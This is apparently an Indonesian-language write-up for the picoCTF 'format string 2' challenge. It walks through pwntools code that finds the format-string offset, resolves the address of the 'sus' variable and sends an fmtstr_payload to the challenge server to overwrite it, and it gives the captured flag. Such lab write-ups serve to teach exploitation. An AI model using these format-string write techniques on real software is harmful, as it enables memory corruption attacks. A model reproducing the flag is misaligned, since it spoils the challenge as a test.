


## CTF Name: format string 2 (Medium)

### Description:
This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must _change_ data on the stack!

### Hint:
pwntools are very useful for this problem!

### Solution:
Untuk menyelesaikan tantangan ini langkah awal yang saya lakukan adalah menganalisa source code nya terlebih dahulu pada vuln.c saya menemukan bahwa cara untuk mendapatkan flagnya harus membuat sus menjadi 0x67616c66 



berdasarkan hasil analisa saya ini saya mendapatkan strategi untuk mengubah sus yang sebelumnya itu 0x21737573 menjadi  0x67616c66 cara yang saya lakukan adalah membuat script payload untuk mengubah nilai sus menggunakan library python yaitu pwn berdasarkan hint yang diberikan dengan langkah sebagai berikut:

 1. **Menemukan Offset Parameter Format String**
 
	Langkah pertama adalah menentukan offset parameter pada stack yang dapat kita kontrol menggunakan payload format string. Offset inilah yang menunjukkan posisi di stack di mana kita dapat menulis data. Menggunakan pwntools, kita dapat secara otomatis mencari offset dengan memanfaatkan kelas FmtStr dan sebuah fungsi yang menjalankan binary secara lokal:
	```
	def send_payload(payload):
    p = elf.process()
    p.sendline(payload)
    l = p.recvall()
    p.close()
    return l

	offset = FmtStr(send_payload).offset
	info(f"{offset=}")
	```
	Di sini, fungsi send_payload menjalankan binary lokal, mengirim payload, dan mengembalikan outputnya. FmtStr kemudian mencari nilai offset yang benar untuk eksploitasi write.
	
2. **Mendapatkan Alamat Target**

	Setelah offset ditemukan, kita perlu mengetahui alamat dari variabel target yaitu simbol **sus** yang akan diubah nilainya. Dengan membuka binary menggunakan pwntools:
	 ```
	 elf = context.binary = ELF('./vuln')
	info(f"{elf.symbols['sus']=}")
	 ```
	 informasi ini memberikan alamat memori dari **sus** yang nantinya akan digunakan untuk menulis **"flag"**.

4. **Membangun dan mengirim payload eksploitasi**
	
 	Dengan mengetahui offset dan alamat target, kita dapat membuat payload menggunakan fungsi fmtstr_payload dari pwntools. Payload ini dirancang untuk menulis nilai  0x67616c66 ke alamat sus.
	```
	p = remote('rhea.picoctf.net', 54471)
	p.sendline(fmtstr_payload(offset, {elf.symbols['sus']: 0x67616c66}))
	info(p.recvall().decode())
	p.close()
	```
	payload yang dibuat oleh pwntools itu bakal dikirimkan menggunakan fungsi remote untuk membuka koneksi ke server  dan jika eksploitasi berhasil, output yang berisi flag akan diterima

5. Menjalankan script payload yang sudah dibuat dengan python3
	```
	python3 script.py
	```
	setelah script python itu dijalankan payload akan dijalankan dari hasil output nya ini:

	
		
	dapat dilihat bahwa payload berhasil dijalankan dan mendapatkan offset nya yaitu 14 dan berhasil mengubah alamat sus menjadi alamt flag dan akhirnya flagnya didapatkan yaitu:
	**picoCTF{f0rm47_57r?_f0rm47_m3m_ccb55fce}**
